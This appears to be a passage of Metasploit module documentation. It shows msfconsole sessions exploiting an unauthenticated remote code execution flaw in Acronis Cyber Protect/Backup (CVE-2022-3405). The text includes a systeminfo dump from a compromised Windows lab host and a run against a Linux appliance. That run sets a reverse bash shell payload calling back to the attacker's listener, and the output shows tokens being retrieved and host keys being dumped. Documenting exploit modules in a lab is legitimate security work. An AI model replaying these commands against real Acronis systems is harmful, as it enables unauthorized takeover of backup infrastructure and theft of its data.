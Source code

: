 ```msf
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 13 GenuineIntel ~2307 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+01:00) Amsterdam, Berlin, Bern, Rome, Stockholm, Vienna
Total Physical Memory:     2,048 MB
Available Physical Memory: 475 MB
Virtual Memory: Max Size:  4,224 MB
Virtual Memory: Available: 2,800 MB
Virtual Memory: In Use:    1,424 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.201.5
                                 [02]: fe80::85ec:4690:3774:2b6b
                                 [03]: fdf7:94fa:75b3:fe44:85ec:4690:3774:2b6b
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Windows\system32>
```
### Acronis Cyber Backup 15 build 27009 VMware appliance - Linux target
```msf
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set target 0
target => 0
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] The target appears to be vulnerable. Acronis Cyber Protect/Backup 15.0.27009
[*] Retrieve first online target registered at the Acronis Cyber Protect/Backup appliance.
[*] Found online target matching your target setting Unix/Linux Command.
[+] hostId: D287E868-EDBB-4FE9-85A9-F928AA10EE5D
[+] parentId: 00000000-0000-0000-0000-000000000000
[+] key: phm.EA9A6E26-38B5-4727-9957-FD7CDD7BF2CC@D287E868-EDBB-4FE9-85A9-F928AA10EE5D.disks
[*] type: machine
[*] hostname: AcronisAppliance-FCD94
```